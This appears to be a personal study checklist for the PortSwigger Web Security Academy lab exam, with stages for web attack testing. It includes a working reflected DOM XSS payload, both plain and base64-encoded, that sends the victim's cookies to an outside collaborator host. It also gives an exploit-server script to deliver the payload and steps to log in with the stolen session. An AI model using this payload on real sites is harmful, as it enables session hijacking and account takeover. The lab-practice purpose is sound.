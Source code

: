 1. Checked boxes means that the vulnerability has been checked and is not present.
2. make space below the checkboxes to add in screenshots for proof (only successful attempts?)
# SCANNING (Enumeration)
## Focus Scanning
- use *Scan selected insertion points* after selecting values 
	- add to the same task to not have too many tasks
		- be wary that it will queue up and may take longer
## Non-Standard Data Structures Scanning
- scan cleartext only if the value has a mix of cleartext and tokens/encoding
# STAGE 1: FOOTHOLD
- [x] Content Discovery?
	- `ffuz`, `robots.txt`
- [ ] [[Cross-Site Scripting (XSS)|XSS?]]
	- [ ] [[Cross-Site Scripting (XSS)#DOM-Based XSS|DOM XXS?]]
		- [ ] reflected DOM XSS : bypassing signature based filters
			- payload:
				`"-eval(atob('var i=new Image();i.src="http://h1jxn2m4xioxosa95g1bwm9dy44vsmia7.oastify.com/?cookie="+document.cookie;'))-"`
			- encoded payload:
				```
				%22-eval(atob('dmFyIGk9bmV3IEltYWdlKCk7IGkuc3JjPSJodHRwOi8vZ2N3emxvY3F2bWlrMzRxM3hpOW0xMGprN2JkMjF2cGsub2FzdGlmeS5jb20vP2Nvb2tpZT0iK2RvY3VtZW50LmNvb2tpZTs='))-%22
				```
			![[Screenshot 2024-06-18 at 4.21.08 PM.png]]
			- the following is received in *Collaborator*:
				![[Screenshot 2024-06-18 at 6.32.38 PM.png]]
			- use the following in the body of the exploit server and then deliver to victim, 
				```html 
				<script>
				document.location.href = "https://0a7e00db033481818283e7d8007000aa.web-security-academy.net/?SearchTerm=%22-eval(atob('dmFyIGk9bmV3IEltYWdlKCk7IGkuc3JjPSJodHRwOi8vZ2N3emxvY3F2bWlrMzRxM3hpOW0xMGprN2JkMjF2cGsub2FzdGlmeS5jb20vP2Nvb2tpZT0iK2RvY3VtZW50LmNvb2tpZTs='))-%22"
				</script>
				```
			- should receive their cookie
				![[Screenshot 2024-06-18 at 6.38.40 PM.png]]
			- open a blog post (has no csrf or any other parameters) and paste the cookie in *Repeater*. open the response in browser to log in as *carlos*:
				![[Screenshot 2024-06-18 at 6.42.22 PM.png]]
- [x] [[Web Cache Poisoning|Web Cache Poisoning?]]
- [x] [[HTTP Host Header Attacks|HTTP Host Header Attack?]]
- [x] [[HTTP Request Smuggling|Request Smuggling?]]
- [x] [[Authentication#Brute-Force Attacks|Brute-Force Authentication?]]
- [x] Others?
# STAGE 2: PRIVILEGE ESCALATION
- [x] [[Cross-Site Request Forgery (CSRF)|CSRF?]]
- [x] Password Reset
	- multiple different types, check all
- [ ] [[SQL Injection|SQLi?]]
	- advanced search page
	- ran `sqlmap` on the blog parameter with the following command:
		``
- [x] JWT?
- [x] [[Access Control|Access Control?]]
- [x] [[Cross-Origin Resource Sharing (CORS)]CORS?]

# STAGE 3: DATA EXFILTRATION
- [x] [[XML External Entity Injection (XXE)|XXE?]]
- [x] [[Server-Side Request Forgery (SSRF)|SSRF?]]
- [x] [[Server-Side Template Injection (SSTI)|SSTI?]]
- [x] [[Path Traversal|Path Traversal?]]
- [x] [[File Upload|File Upload?]]
- [ ] [[Insecure Deserialization|Insecure Deserialization?]]
- [x] [[OS Command Injection|Command Injection?]]
